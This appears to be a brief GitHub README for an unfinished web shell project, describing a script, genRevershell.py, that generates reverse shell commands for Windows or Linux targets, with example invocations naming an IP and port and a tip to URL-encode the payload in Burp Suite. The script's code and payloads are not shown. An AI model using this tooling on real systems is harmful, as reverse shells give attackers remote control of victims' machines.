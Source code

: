 # Web-Shell
I have made webshell project to make sure safety without evil code 

**Note: This project is updating**
```
Please wait for complete task

My deadline is 20/10/2021

Thanks.

If anyone can help me, please contact me! 

This project is update every weekends until completing task.

Thanks for reaching.
```
File `genRevershell.py` is use to generate reverse shell via cmd.
How to use:
1. Use python3 
2. Linux OS

To gen for Windows target is :
`python3 genRevershell.py 192.168.1.6 1234 1`

To gen for Linux target is :
`python3 genRevershell.py 192.168.1.6 1234 2`

![image](https://user-images.githubusercontent.com/24661746/130801741-28663ef1-e8be-4f39-9c42-eaf769750dd6.png)

In real case, we need to encode payload as URL(`Ctrl+U` in Burpsuite):

![image](https://user-images.githubusercontent.com/24661746/130804243-78775658-ed64-4abb-8dd5-e0120314eb71.png)
